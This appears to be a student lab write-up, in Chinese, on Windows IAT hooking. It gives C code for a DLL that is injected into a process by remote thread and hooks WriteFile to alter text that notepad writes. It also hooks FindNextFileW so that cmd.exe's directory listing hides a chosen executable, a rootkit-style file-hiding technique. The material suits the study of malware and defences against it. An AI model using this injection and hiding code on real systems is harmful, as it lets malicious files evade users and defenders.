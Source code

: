 # API Hook #
## 实验过程 ##
### hook WriteFile ###
- 使用dumpbin /imports C:/Windows/SysWOW64/notepad.exe
- 编写hook-WriteFile.c，并生成hooklib.dll（由于并不需要导出函数，因此其exp.def仅含有LIBRARY hooklib一条语句）
- 该 DLL 使得其被加载时执行IATHook操作，从而将原WriteFlie函数的地址替换为Fake_WriteFile函数的地址
```
// hook-WriteFile.c
#include<Windows.h>
// 函数定义在 IATHook.c 中
LONG IATHook(
    __in_opt void* pImageBase,
    __in_opt char* pszImportDllName,
    __in char* pszRoutineName,
    __in void* pFakeRoutine,
    __out HANDLE* phHook);
void* GetIATHookOrign(__in HANDLE hHook);
HANDLE g_hHook_WriteFile = NULL;
typedef BOOL(__stdcall * LPFN_WriteFile)(HANDLE hFile, LPCVOID lpBuffer, DWORD nNumberOfBytesToWrite,
    LPDWORD lpNumberOfBytesWritten, LPOVERLAPPED lpOverlapped);
BOOL __stdcall Fake_WriteFile(HANDLE hFile, LPCVOID lpBuffer, DWORD nNumberOfBytesToWrite,
    LPDWORD lpNumberOfBytesWritten, LPOVERLAPPED lpOverlapped)
{
    LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);
    if (strcmp(lpBuffer, "hahaha") == 0)
        lpBuffer = "hehehe";
    // 调用原始的 WriteFile 函数
    return fnOrigin(hFile, lpBuffer, nNumberOfBytesToWrite, lpNumberOfBytesWritten, lpOverlapped);
}
BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,  // handle to DLL module
    DWORD fdwReason,     // reason for calling function
    LPVOID lpReserved)  // reserved
{
    // Perform actions based on the reason for calling.
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        // Initialize once for each new process.
        IATHook(
            GetModuleHandleW(NULL),
            "kernel32.dll",
            "WriteFile",
            Fake_WriteFile,
            &g_hHook_WriteFile
        );
        // Return FALSE to fail DLL load.
        break;
    }
    return TRUE;  // Successful DLL_PROCESS_ATTACH.
}
```
- 为远程进程创建加载 DLL 的线程
- 注入成功、远程线程结束后，IATHook的效果对当前被注入进程永久有效

### hook FindNextFileW ###
- 使用FindFirstFileW函数和FindNextFileW函数来遍历指定目录，并获得目录下所有文件
- 使用Dependency查看，FindFirstFileW函数和FindNextFileW函数均位于KERNEL32.DLL
![](imgs/1.png)
![](imgs/2.png)
- FindFirstFileW函数用于获取目录句柄，遍历目录使用的是FindNextFileW函数，因此只需要钩取FindNextFileW函数
```
HANDLE g_hHook_FindNextFileW = NULL;
typedef BOOL(__stdcall* LPFN_FindNextFileW)(HANDLE hFindFile, LPWIN32_FIND_DATAW lpFindFileData);
BOOL WINAPI Fake_FindNextFileW(HANDLE hFindFile, LPWIN32_FIND_DATAW lpFindFileData)
{
    LPFN_FindNextFileW fnOrigin = (LPFN_FindNextFileW)GetIATHookOrign(g_hHook_FindNextFileW);
    BOOL status = fnOrigin(hFindFile, lpFindFileData);
    if (wcscmp(lpFindFileData->cFileName, L"CreateRemoteThread.exe") == 0)
    // 当遇到文件名为 CreateRemoteThread.exe 的文件，就再获取下一个，这样就越过了
  	  status = fnOrigin(hFindFile, lpFindFileData);
    return status;
}
// 修改 DLLMain 中调用 IATHook 函数的传入参数
IATHook(
  	GetModuleHandleW(NULL),
  	"API-MS-WIN-CORE-FILE-L1-1-0.dll",
  	"FindNextFileW",
  	Fake_FindNextFileW,
  	&g_hHook_FindNextFileW
);
```
- 实验效果展示，可以看到被攻击的cmd.exe使用dir时，无法显示目录下的CreateRemoteThread.exe
![](imgs/3.png)

## 参考资料 ##
- [WriteFile function](https://docs.microsoft.com/zh-cn/windows/win32/api/fileapi/nf-fileapi-writefile)
- [FindNextFileW function](https://docs.microsoft.com/zh-cn/windows/win32/api/fileapi/nf-fileapi-findnextfilew)
- [Listing the Files in a Directory](https://docs.microsoft.com/zh-cn/windows/win32/fileio/listing-the-files-in-a-directory)